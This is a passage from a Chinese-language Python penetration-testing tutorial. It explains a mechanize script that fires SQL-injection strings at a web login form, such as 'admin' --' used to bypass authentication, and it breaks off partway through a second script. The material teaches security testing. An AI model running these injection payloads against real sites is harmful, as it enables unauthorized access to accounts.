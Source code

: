 ```py
  elif(p+1 == len(pass_exp)):
    print "All exploits over "
    flag =1
  else :
    p = p+1
```

您应该能够理解程序直到`for`循环。`pass_exp`变量表示基于逻辑的密码攻击列表。`user1`和`pass1`变量要求用户输入用户名和密码字段，如表单所示。`flag=0`变量使`while`循环继续，`p`变量初始化为`0`。在`while`循环内，即`br.select_form(nr=0)`语句，选择 HTML 表单一。实际上，这段代码是基于这样的假设，即当您转到登录屏幕时，它将在第一个 HTML 表单中包含登录用户名和密码字段。`br.form[user1] = 'admin'`语句存储用户名；实际上，我使用它使代码简单易懂。`br.form[pass1] = pass_exp[p]`语句显示将`pass_exp`列表的元素传递给`br.form[pass1]`。接下来，`for`循环部分将输出转换为字符串格式。我们如何知道密码是否已成功接受？您已经看到，成功登录到页面后，您将在页面上找到注销或退出选项。我在名为`list`的列表中存储了不同的注销和退出选项的组合。`data1 = data.lower()`语句将所有数据更改为小写。这将使在数据中查找注销或退出术语变得容易。现在，让我们看看代码：

```py
for l in list:
    for match in re.findall(l,data1):
      flag = 1
```

上述代码将在`data1`中找到`list`的任何值。如果找到匹配项，则`flag`变为`1`；这将打破`while`循环。接下来，`if flag ==1`语句将显示成功的尝试。让我们看看代码的下一行：

```py
elif(p+1 == len(pass_exp)):
    print "All exploits over "
    flag =1
```

上述代码显示，如果`pass_exp`列表的所有值都用完了，那么`while`循环将中断。

现在，让我们来检查以下屏幕截图中代码的输出：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/py-pentest-ess/img/28f33c91-bf6d-417a-b141-d36043aad1ab.png)

SQL 注入攻击

上述屏幕截图显示了代码的输出。这是一个非常基本的代码，用于澄清程序的逻辑。现在，我希望您修改代码，并制作一个新代码，其中您可以为用户名和密码提供列表值。

我们可以为包含`user_exp = ['admin" --', "admin' --", 'admin" #', "admin' #" ]`的用户名编写不同的代码（`sql_form7.py`），并在密码字段中填入任何内容。此列表背后的逻辑是，在管理员字符串`–`或`#`后进行注释，行的其余部分就在 SQL 语句中了：

```py
import mechanize
import re 
br = mechanize.Browser()
br.set_handle_robots( False )
url = raw_input("Enter URL ")
br.set_handle_equiv(True)
br.set_handle_gzip(True)
br.set_handle_redirect(True)
br.set_handle_referer(True)
br.set_handle_robots(False)
br.open(url)

for form in br.forms():
  print form
form = raw_input("Enter the form name " )
br.select_form(name =form)
user_exp = ['admin" --', "admin' --",   'admin" #', "admin' #" ]

user1 = raw_input("Enter the Username ")
pass1 = raw_input("Enter the Password ")

flag =0
p =0
while flag ==0:
  br.select_form(name =form)
```